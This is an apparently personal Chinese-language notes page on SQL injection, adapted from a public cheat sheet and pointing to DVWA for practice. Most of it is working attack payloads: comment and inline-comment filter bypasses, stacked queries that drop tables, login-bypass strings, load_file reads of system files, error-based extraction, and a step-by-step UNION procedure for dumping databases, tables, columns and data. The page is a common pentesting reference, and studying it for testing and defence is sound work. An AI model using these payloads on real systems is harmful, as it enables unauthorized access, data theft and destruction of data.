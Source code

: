 # SQL 注入

## 注入方式
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
### Line Comments（行注释）
- 注释多余查询（Comments out rest of the query.）
```sql
-- 注释标识一， 两个短横线+一个空格
#注释标识二，井号
/* 注释标志三，C语言注释 */
-- 行注释实例： 
select * from members where username='admin'-- ' and password='password'
select * from members where username='admin'# ' and password='password'
```
### Inline Comments(行内注释)
```sql
drop/*Comment*/sampletable
dr/**/op/*bypass blacklisting*/sampletable
select/*avoid-spaces*/password/**/from/**/members

# 特殊注释查询
/*
 Mysql的特殊注释查询/*!Mysql Special SQL */
 */
select /*!32302 1/0, */ 1 from tablename -- 其中只有3.23.02及以上的版本才执行

# 查询优化器
/*+ 优化器 */

```

### Stacking Queries(多语句查询)
```sql
select * from members; drop members-- 
/*
 * PHP-MySQL doesn't support stacked queries.
 * Jave doesn't support stacked queries(I'm sure for Oracle. not quite sure about other databases).
 */
-- Stacked SQL Injection Attack Samples
-- ID: 10; drop members --
select * from products where id = 10; drop members-- 
```
### If Statements(If语法)
```sql
-- Mysql If Statement
if(condition, true-part,false-part)
select if(1=1,'true','false')

-- SQL Server If Statement
-- if condition true-part else false-part
IF (1=1) select 'true' else select 'false'

-- Oracle If Statecoment
-- Begin if condition then true-part; else false-part; end if end
if (1=1) then dbms_lock.sleep(3); else dbms_lock.sleep(0); end if end

-- PostgreSQL If Statement
-- select case when condition then true-part else false-part end;
select case when (1=1) then 'A' else 'B' end;

--If Statement SQL Injection Attack Samples
if ((select user) = 'sa') or (select user) = 'dbo') select 1 else select 1/0
```

### Using Integers
```sql
/*
 * Very useful for bypassing,magic_quotes() and similar filters. or even WAFs
 * 0xHEXNUMBER(SM)
 * You can write hex like theese:
 * select char(0x66)(S)
 * select 0x5045(This is not an intger it will be a string from Hex)(M)
 * select 0x50 + 0x45(This is ingteger now!)(M)
 */
```

### String Operations(字符串运算)
```sql
/*
 * + (S)
 * select login + '-' + password from members
 * || (*MO)
 * select login || '-' || password from members
 * About MySQL "||"
 * If MySQL is running in ANSI mode it's going to work but otherwise MySQL accept is as 'logical operator' it'll return 0. A better way to do it is using CONCAT() function in MySQL.
 * concat(str1, str2, str3, str4, ...)(M)
 */
 
-- Strings without Quotes
-- 0x457578
select 0x457578 -- (M)
select concat('o0x', HEX('c:\\boot.ini')) -- (M)
select concat(char(75), char(76), char(77)) -- (M)
select char(75)+char(76)+char(77) -- (S)
select char(75)||char(76)||char(77) -- (O)
select (char(75)||char(76)||char(77))-- (P)

-- Hex based SQL Injection Samples
select load_file(0x633A5C626F6F742E696369) -- (M)

-- String Modification & Related
# ASCII() -- (SMP)
# char() -- (SM)

```

### Bypassing Login Screens (SMO+)
```sql
-- SQL Injection 101, Login tricks
# admin' -- 
# admin' # 
# admin' /*
# ' or 1=1-- 
# ' or 1=1#
# ' or 1=1/*
# ') or '1'='1--
# ') or ('1'='1--
# Login as different user(SM*)
#   ' union select 1, 'anotheruser','doesnt metter', 1--

-- Bypassing second MD5 hash check login screens
# admin' and 1=0 union all select 'admin','81dc9bdb52d04dc20036dbd8313ed055'

```

## 注入方法
1) 联合查询注入
2) 报错注入
?id=1' and updatexml(1,(concat('^',database(),'^')),1) --
3) 延迟注入
4) BOOL盲注
## 常用SQL注入字符
```SQL
` . ' " ) ] } / \ --
```
## Firefox 黑客工具栏
- Hackbar
## 联合查询注入
1) 看页面URL地质是否有后台传参动作
2) 构造传参值  ?id=51' 验证输入后台是否能够解析
3) and 1=1判断页面是否正常； and 1=2 判断页面是否部分报错; or 1=1 
4) order by 5 (5可以是其他数字，找到报错和不报错的临界点，取不报错的最大值)
5) union select 1,2,3,4,5,6,7 --+ 
- --+指注释掉插入攻击语句后的所有代码
- 匹配order by 验证出来的列数
- 联合查询时，前面Id的值要用负数（-5）
6) union select 1,2,3,4,5,6,构造语句,7
- database()  当前使用的数据库名称
- user()      当前登陆数据库的用户
- @@version   当前数据库版本
- @@basedir   查看路径
7) 爆库   查看当前数据库中有哪些表
```SQL
(select group_concat(table_name) from information_schema.tables where table_schema=0xxxx)
-- table_schema 的值需要输入16进制
```
8) 爆表   找到疑似关键信息的表
9) 查询表的列
```SQL
(select group_concat(column_name) from information_schema.columns where table_schema=0xxxx and table_name=0xxxx)
-- table_schema 和 tabale_name 的值需要输入16进制
```
10) 爆数据  查询表中的数据
```SQL
(select group_concat(concat(column1, column2, '%23')) from table_name)
-- %23 是URL编码
```

## PHP攻击练习工具
![DVWA](https://github.com/digininja/DVWA)
